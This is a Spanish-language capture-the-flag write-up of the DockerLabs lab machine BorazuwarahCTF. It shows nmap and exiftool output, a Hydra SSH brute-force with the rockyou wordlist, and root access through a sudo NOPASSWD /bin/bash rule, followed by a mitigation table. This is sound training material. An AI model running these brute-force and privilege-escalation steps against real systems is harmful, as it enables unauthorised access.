

# BorazuwarahCTF — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Very Easy | **Target IP:** 172.17.0.2 

## Descripcion 

La máquina BorazuwarahCTF presenta una cadena de ataque sencilla basada principalmente en la exposición de información sensible, el uso de credenciales débiles y una configuración insegura de sudo. A partir de la enumeración inicial de los servicios web y SSH, fue posible obtener información sobre un usuario mediante los metadatos de una imagen, descubrir su contraseña mediante fuerza bruta contra SSH y finalmente obtener privilegios root debido a los permisos sudo asignados al usuario.

## Attack Chain

**Nmap → Web Enumeration → EXIF Metadata → User Disclosure → SSH Brute Force → SSH Access → Sudo/Bash Abuse → Root**

### 1 Identificacion de servicios y puertos abiertos.

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/borazuwatahctf]
└─$ sudo nmap -sC -sV -p 22,80 172.17.0.2                          
[sudo] password for mariano: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-30 22:07 -0300
Nmap scan report for 172.17.0.2
Host is up (0.000065s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 62:0B:63:C2:5C:BF (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.30 seconds

```
Como se menciono en la descripcion de la maquina, hay un servicio web y un SSH disponible, ingresamos a la pagina y vemos lo siguiente:



realizamos un curl para verificar el codigo de la pagina

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/borazuwatahctf]
└─$ curl 172.17.0.2
<html><body></body></html>

```
Descargamos la foto y visualizamos los metadatos, ya que como pista en la descipcion indican "estaganografía"

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/borazuwatahctf]
└─$ exiftool imagen.jpeg 
ExifTool Version Number         : 13.55
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2026:09:30 22:04:04-03:00
File Access Date/Time           : 2026:09:30 22:04:04-03:00
File Inode Change Date/Time     : 2026:09:30 22:04:04-03:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Nos dan como pista el usuarios que podemos encontrarla en description, pasamos a utilizar Hydra y realizar conexion por SSH.

## 2. Fuerza bruta con Hydra.

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/borazuwatahctf]
└─$ sudo hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt -t 4 -f  172.17.0.2 ssh 
[sudo] password for mariano: 
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for nding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-09-30 22:05:43
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-09-30 22:05:45

```
Obtenemos la clave para el servicio SSH, procedemos a realizar la conexion.

## 3. Conexion SSH y escalada de privilegios.

```                                                                                                                            
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/borazuwatahctf]
└─$ sudo ssh borazuwarah@172.17.0.2
[sudo] password for mariano: 
borazuwarah@172.17.0.2's password: 
Linux 434ae4e5faa4 7.1.5+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.1.5-1kali1 (2026-07-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Oct  1 01:09:32 2026 from 172.17.0.1
borazuwarah@434ae4e5faa4:~$ sudo -l
Matching Defaults entries for borazuwarah on 434ae4e5faa4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on 434ae4e5faa4:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
borazuwarah@434ae4e5faa4:~$ sudo /bin/bash
root@434ae4e5faa4:/home/borazuwarah# whoami
root
root@434ae4e5faa4:/home/borazuwarah# 

```

# Conclusión

La máquina **BorazuwarahCTF** presenta una cadena de ataque sencilla basada principalmente en la exposición de información sensible, el uso de credenciales débiles y una configuración insegura de `sudo`.

A partir de la enumeración inicial de los servicios web y SSH, fue posible obtener información sobre un usuario mediante los metadatos de una imagen, descubrir su contraseña mediante fuerza bruta contra SSH y finalmente obtener privilegios `root` debido a los permisos `sudo` asignados al usuario.

| Vulnerabilidad / Mala configuración                          | Impacto                                                                                                                                             | Mitigación                                                                                                                                    |
| ------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------- |
| **Información sensible expuesta en metadatos de una imagen** | Los metadatos de la imagen contienen el nombre de un usuario válido (`borazuwarah`), proporcionando información útil para continuar el ataque.      | Eliminar información sensible o innecesaria de los metadatos antes de publicar archivos. Revisar los archivos expuestos por aplicaciones web. |
| **Contraseña débil y susceptible a fuerza bruta**            | La contraseña del usuario (`123456`) pudo ser descubierta mediante un ataque de diccionario contra el servicio SSH.                                 | Utilizar contraseñas largas, únicas y resistentes a ataques de diccionario. Implementar políticas de contraseñas adecuadas.                   |
| **SSH accesible mediante autenticación por contraseña**      | Al disponer de un usuario válido y una contraseña débil, un atacante puede obtener acceso remoto al sistema mediante SSH.                           | Preferir autenticación mediante claves SSH y deshabilitar la autenticación por contraseña cuando sea posible.                                 |
| **Configuración insegura de `sudo`**                         | El usuario puede ejecutar `/bin/bash` mediante `sudo` sin introducir contraseña, permitiendo obtener directamente una shell con privilegios `root`. | Aplicar el principio de mínimo privilegio y limitar las reglas de `sudo` únicamente a los comandos estrictamente necesarios.                  |
| **Uso de `NOPASSWD` para `/bin/bash`**                       | Permite ejecutar una shell con privilegios elevados sin autenticación adicional.                                                                    | Evitar permitir la ejecución de shells como `root` mediante `NOPASSWD` y revisar periódicamente las reglas de `sudo`.                         |
| **Escalada de privilegios hasta `root`**                     | La combinación de las credenciales comprometidas y la configuración insegura de `sudo` permite comprometer completamente el sistema.                | Auditar periódicamente permisos, reglas de `sudo`, credenciales y servicios expuestos.                                                        |

## Recomendaciones generales

* No almacenar información sensible en los metadatos de archivos publicados.
* Revisar los archivos y recursos expuestos por los servicios web.
* Utilizar contraseñas robustas, largas y únicas.
* Evitar contraseñas predecibles o presentes en diccionarios comunes.
* Preferir autenticación mediante **claves SSH** en lugar de contraseñas.
* Implementar mecanismos de protección contra ataques de fuerza bruta.
* Restringir el acceso al servicio SSH únicamente a los usuarios que lo necesiten.
* Revisar periódicamente las reglas configuradas en `/etc/sudoers` y `/etc/sudoers.d/`.
* Evitar reglas `NOPASSWD` innecesariamente permisivas.
* No permitir que usuarios sin privilegios puedan ejecutar shells como `root`.
* Aplicar siempre el principio de **mínimo privilegio**.


